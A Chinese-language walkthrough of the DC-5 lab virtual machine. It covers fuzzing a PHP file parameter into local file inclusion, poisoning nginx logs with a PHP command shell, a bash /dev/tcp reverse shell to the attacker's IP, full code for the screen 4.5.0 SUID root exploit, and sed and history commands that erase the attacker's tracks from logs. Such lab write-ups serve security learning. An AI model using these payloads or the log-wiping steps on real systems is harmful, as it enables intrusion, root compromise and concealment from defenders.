


# 前言

靶机：`DC-5`，IP地址为`192.168.10.4`

攻击：`kali`，IP地址为`192.168.10.2`

都采用`VMWare`，网卡为桥接模式

对于文章中涉及到的靶场以及工具，我放置在公众号中，在公众号发送`dc0105`即可获取相关工具DC

# 主机发现

使用`arp-scan -l`或者`netdiscover -r 192.168.10.1/24`


# 信息收集 

## 使用nmap扫描端口


## 网站信息探测

访问80端口默认界面，查看页面源代码，发现脚本语言为`php`


使用`gobuster、dirsearch、ffuf、dirb、dirbuster`等工具对目标进行目录爆破

```shell
gobuster dir -u http://192.168.10.4 -w /usr/share/wordlists/dirb/big.txt -x php,html,txt,md -d -b 404
```


# 漏洞寻找

既然是`php`文件，并且当前也没有什么可用，那么使用`ffuf`对这些`php`脚本文件进行模糊测试，测试有无一些隐藏的参数，知道几个的`php`文件，来回进行一个测试，最终在`thankyou.php`发现

```shell
ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://192.168.10.4/thankyou.php?FUZZ=./contact.php -fs 852
#FUZZ是前面字典的测试点，也就是测试参数
#FUZZ后面的是已知的网站php文件，如果存在文件包含等，可能就会显示
#-fs是过滤该字节大小的数据，也就是原始的thankyou.php的数据大小
```


发现参数`file`，那么再测试有什么可注入点，通过这个参数

```shell
ffuf -c -w /usr/share/wordlists/wfuzz/Injections/All_attack.txt -u http://192.168.10.4/thankyou.php?file=FUZZ -fs 835
#-fs后面的数据变化了，是因为数据大小发生变化，在有file参数后，原始的大小变为835
```


通过构造链接，获取`/etc/passwd`文件，发现靶机内有一个用户`dc`


但是这里没有办法获取`/etc/shadow`文件，所以继续寻找其他点，尝试使用从`github`上获取的字典，继续进行测试

```shell
ffuf -c -w /usr/share/wordlists/linux_file.txt -u http://192.168.10.4/thankyou.php?file=FUZZ -fs 835
```


# 漏洞利用

但是这里访问一圈，没有获取到有用信息。

这时候去前面看了一下`nmap`的扫描， 想起这里的网站使用的是`nginx`，偏偏使用的字典没有包括这个，这里就手动输入

| 路径                        | 作用                                            |
| --------------------------- | ----------------------------------------------- |
| `/etc/nginx/nginx.conf`     | 主配置文件                                      |
| `/var/log/nginx/access.log` | 访问日志配置，它将访问日志记录                  |
| `/var/log/nginx/error.log`  | 记录 Nginx 服务器在运行过程中出现的各种错误信息 |

经过测试，日志文件`error.log`会记录信息，但是`access.log`并无记录信息

既然是错误的日志，那么就尝试给予一个传参的值为`php`代码，然后进行测试

先传入简单的代码进行测试`<?php system('id');?>`

```shell
http://192.168.10.4/thankyou.php?file=<?php system('id');>
```

访问记录错误的日志文件，发现其中的代码被进行`url`编码了

访问链接，最好以查看源代码的形式，不然容易出错，或者看不清

```shell
view-source:http://192.168.10.4/thankyou.php?file=/var/log/nginx/error.log
```


那么尝试使用`burp`进行抓取数据包，测试其在哪个阶段进行的`url`编码，发现是在到服务器之前进行的编码，那么可以在`burp`中修改，并且，还是有可能注入的


啧，这里靶机出了问题，再访问`error.log`没有任何信息，所以无奈之下，重装靶机，可能之前进行爆破的时候，太多导致的

这时候把编码的代码进行复原，然后进行转发


再次访问`access.log`，这里为什么是`access.log`不是`error.log`了呢，因为重装后，好了，`access.log`有数据了，不过访问`error.log`也是可以看到数据的

访问`access.log`的效果如下

```shell
view-source:http://192.168.10.4/thankyou.php?file=/var/log/nginx/access.log
```



访问`error.log`的效果如下

```shell
view-source:http://192.168.10.4/thankyou.php?file=/var/log/nginx/error.log
```



而且说白了，在进行构造时，参数是不是`file`都行，只要在进行查看，也就是文件包含时，使用即可

这里确定可以执行`php`代码，那么就尝试设置一个参数，来进行命令执行

构造代码`<?php system($_REQUEST['cmd']);?>`，然后再次通过`burp`改包后转发


然后在浏览器上访问，这时候就需要构造链接了

```shell
view-source:http://192.168.10.4/thankyou.php?file=/var/log/nginx/access.log&cmd=ls
```

# 反弹shell

`cmd`用于接收用户的输入，然后调用`system`函数执行，也就相当于命令执行了

尝试通过这样构造一个`bash`反弹

```shell
/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.10.2/9999 0>&1'

#进行URL编码后
%2fbin%2fbash+-c+%27%2fbin%2fbash+-i+%3e%26+%2fdev%2ftcp%2f192.168.10.2%2f9999+0%3e%261%27
```

把URL编码后的语句传参给`cmd`，就可以获取到一个反弹`shell`


在查看当前靶机内用户，发现只要`dc`，并且其中的目录下，并没有任何文件，个人感觉，可能都不需要提权至`dc`了

使用`find`寻找具有SUID权限的文件，啧，发现`exim4`文件，是不是很眼熟，因为这个和上个靶机很像，就是不知道版本是否一致


# 提权

测试发现`exim4`的版本为4.84-2，在使用`searchsploit`未对应版本，也未在范围内

```shell
searchsploit exim 4.8 privilege
```


不过发现一个不常见的命令`screen-4.5.0`

使用`searchsploit`搜索，发现有该版本的提权脚本

```shell
searchsploit screen 4.5.0
```


使用`locate`定位到文件的位置，然后为了方便复制到当前目录下的位置，然后查看脚本文件内容，发现涉及到`gcc`编译


那么测试靶机内有无环境，就是有无安装`gcc`，并且能否使用`wget`


不过在执行脚本后，直接出错，不过观察脚本，按理说，应该是可以进行创建等操作的，既然在靶机内无法直接执行脚本，那么就把脚本中的内容进行分段处理，这里就是三部分，两个`c`文件，然后还有编译的操作命令。

> 注意，我这里因为出现失误，所以后续的代码编辑，文件名称会改变，不过效果不变

```c
//第一部分的c文件
//下面代码存放在 /tmp/libhax.c

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/shell", 0, 0);
    chmod("/tmp/shell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}


//执行下面的命令
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
```

然后创建第二个

```c
//第二部分的c文件

#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}


//执行下面的命令
gcc -o /tmp/shell /tmp/shell.c
rm -f /tmp/shell.c
```

然后创建一个脚本文件，或者这里的命令，一个个去执行也是可以的

```shell
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/shell  
```

因为靶机内文件编译器有问题，所以这里把两个`c`文件以及脚本文件编写好，然后通过`python`，靶机使用`wget`下载到`/tmp`目录。

不过在靶机使用`gcc`编译出现以下问题时，配置以下临时环境变量即可

```shell
#报错信息
gcc: error trying to exec 'cc1': execvp: No such file or directory
```


可以使用临时环境变量配置，一般的`gcc`关键目录可能都在这个

```shell
export PATH=$PATH:/usr/local/bin/
```

这时候再按照两个`c`文件对应的`gcc`编译命令，然后就可以编译成功


执行脚本文件，即可发现提权成功


查看`flag`


# 清除痕迹

这里必须要说一下，因为这次对于`nginx`的日志都已经出现问题了，所以肯定有大量的记录

```shell
sed -i "/192.168.10.2/d" /var/log/nginx/access.log
sed -i "/192.168.10.2/d" /var/log/nginx/error.log
```

对于其他的日志，直接置空或者怎么样都行

历史命令清理

```shell
history -r
history -c
```


# 总结

该靶场主要考察以下几点：

1. 对于网站只有由`php`语言编写的时候，要测试有无隐藏的参数，或许这个参数具有文件包含功能，甚至可能会有远程的文件包含
2. 对于常见的几种web中间件的配置文件的了解，这里是考察`nginx`的日志文件，并通过该日志文件触发`php`代码，以达到文件包含+命令执行的效果
3. 反弹`shell`的构造，这里太多了，靶机支持的情况下，可以百度测试，这里提供一个地址`https://forum.ywhack.com/shell.php`
4. 对于提权操作，搜索具有SUID权限的文件后，可以查看文件是否具有版本漏洞，可以借助`searchsploit`，然后以及靶机内信息收集来确定版本，以确定是否具有漏洞，这里忘了截图`uname -a`这里可以看到为`GNU`系统